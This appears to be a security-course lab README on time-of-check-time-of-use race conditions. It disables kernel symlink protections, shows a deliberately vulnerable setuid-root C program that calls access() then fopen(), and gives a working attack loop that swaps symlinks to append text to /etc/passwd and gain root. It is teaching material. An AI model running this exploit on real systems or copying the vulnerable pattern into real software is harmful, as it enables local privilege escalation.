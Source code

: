 # Race Condition Lab

## What is race condition

A race condition occurs when multiple processes access and manipulate the same data concurrently, and the outcome of the execution depends on the particular order in which the access takes place. If a privileged program has a race-condition vulnerability, attackers can run a parallel process to “race” against the privileged program, with an intention to change the behaviors of the program.

## Environment Setup

```bash
sudo sysctl -w fs.protected_symlinks=0
sudo sysctl fs.protected_regular=0
```

`fs.protected_symlinks`: A long-standing class of security issues is the symlink-based time-of-check-time-of-use race, most commonly seen in world-writable directories like /tmp. The common method of exploitation of this flaw is to cross privilege boundaries when following a given symlink (i.e. a root process follows a symlink belonging to another user). For a likely incomplete list of hundreds of examples across the years, please see: http://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=/tmp

## Vulnerable Code

```c
int main()
{
    printf("RUID %d\n", getuid());
    printf("EUID %d\n", geteuid());

    char* fn = "/tmp/XYZ";
    char buffer[60];
    FILE* fp;

    /* get user input */
    scanf("%50s", buffer);

    /* check if the file is writable */
    if (!access(fn, W_OK)) { // <----- check the RUID
        fp = fopen(fn, "a+"); // <----- check the EUID
        if (!fp) {
            perror("Open failed");
            exit(1);
        }
        fwrite("\n", sizeof(char), 1, fp);
        fwrite(buffer, sizeof(char), strlen(buffer), fp);
        fclose(fp);
    } else {
        printf("No permission \n");
    }

    return 0;
}
```

Vulnerability: **the time window between the check for write permission and the opening of the file**. 

- There is a possibility that the file used by `access()` is different from the file used by `fopen()`, even though they have the same file name `/tmp/XYZ`. If a malicious attacker can somehow makes `/tmp/XYZ` a **symbolic link** pointing to a protected file, such as `/etc/passwd`, inside the time window, the attacker can cause the user input to be appended to `/etc/passwd`, and can thus gain the root privilege. The vulnerable program runs with the root privilege, so it can overwrite any file.
- `access()` vs `fopen()`: `access()` checks the file permission of the file name with read uid, but `fopen()` opens the file with the effective user id (EUID) of the process.
- In order to exploit this vulnerability to open file owned by root, the program has to be a **SET-UID** program and the program file owner has to be **root**. Because the **SET-UID** program allow the user a program with the EUID equals to the program file owner. We can achieve this by using the following commands.

```bash
$ sudo chown root vulp
$ sudo chmod 4755 vulp
```

## Task 1: Choose a target file to overwrite

- Target file: `/etc/passwd` because it is not writable by the normal user and if it is overwritten, the attacker can gain root privilege.
- Goal: create a new user account with root privilege, i.e, user id has to be 0.

## Task 2: Launching the Race Condition Attack

### Attack Program

The atomic swap is needed to avoid the context switch between the `unlink()` and `symlink()` calls.

```c
#define _GNU_SOURCE

#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char argv[]) {
  while (1) {
	unsigned int FLAG = RENAME_EXCHANGE;
	unlink("/tmp/XYZ"); symlink("/tmp/123","/tmp/XYZ");
	unlink("/tmp/ABC"); symlink("/etc/passwd","/tmp/ABC");
	renameat2(0, "/tmp/XYZ", 0, "/tmp/ABC", FLAG); // This swap the two files ATOMICALLY, i.e, /tmp/XYZ links to /etc/passwd and /tmp/ABC links to /tmp/XYZ
	sleep(0.1);
  }
}
```

### DEMO

https://github.com/user-attachments/assets/35213002-80b5-414b-8c76-679878e0be00



